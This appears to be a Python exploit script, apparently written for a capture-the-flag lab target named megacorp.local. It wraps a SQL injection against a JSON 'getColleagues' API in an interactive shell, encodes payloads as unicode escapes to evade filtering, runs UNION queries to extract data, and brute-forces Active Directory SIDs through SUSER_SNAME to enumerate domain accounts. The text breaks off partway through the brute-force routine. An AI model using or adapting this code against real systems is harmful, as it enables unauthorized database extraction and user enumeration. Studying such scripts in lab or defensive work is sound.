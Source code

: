 python scripts

```python
import requests
import json
import cmd
import struct
import time

url = "http://megacorp.local/api/getColleagues"
header = {"Content-Type":"application/json;charset=utf-8"}
proxy = {"http":"127.0.0.1:8080"}
# querys = "a' union select 1,2,3,'helloemail',5-- -"
# dict object, use json;
# data = {"name": gen_payload(querys)}
# req = requests.post(url, json=data, headers=header, proxies=proxy)

def gen_payload(query):
    payload = ""
    for char in query:
        payload += r"\u{:04x}".format(ord(char))
    return payload

def get_sid(n):
    domain = '0x0105000000000005150000001c00d1bcd181f1492bdfc236'
    user = struct.pack('<I', int(n))  # user output: '\xf4\x01\x00\x00'
    # convert to f4010000
    user = user.hex()
    return f"{domain}{user}"

def make_request(payload):
    payload = gen_payload(payload)
    data = '{"name":"' + payload + '"}'
    req = requests.post(url, data=data, headers=header, proxies=proxy)
    return req.text


class exploit(cmd.Cmd):
    prompt = "Pleasesub > "

    def default(self, line):
        payload = gen_payload(line)
        # str, use data
        data = '{"name":"' + payload + '"}'
        req = requests.post(url, data=data, headers=header, proxies=proxy)
        print(req.text)

    def do_union(self, line):
        payload = "a' union select 1,2,3," + line + ",5-- -"
        payload = gen_payload(payload)
        data = '{"name":"' + payload + '"}'
        req = requests.post(url, data=data, headers=header, proxies=proxy)
        try:
            js = json.loads(req.text)
            print(js[0]['email'])
        except:
            print(req.text)
        #print(payload)

    def do_brute(self, line):
        start, stop = line.split(" ")
        for i in range(int(start), int(stop)):
            sid = get_sid(i)
            payload = "a' union select 1,2,3,SUSER_SNAME(" + sid + "),5-- -"
```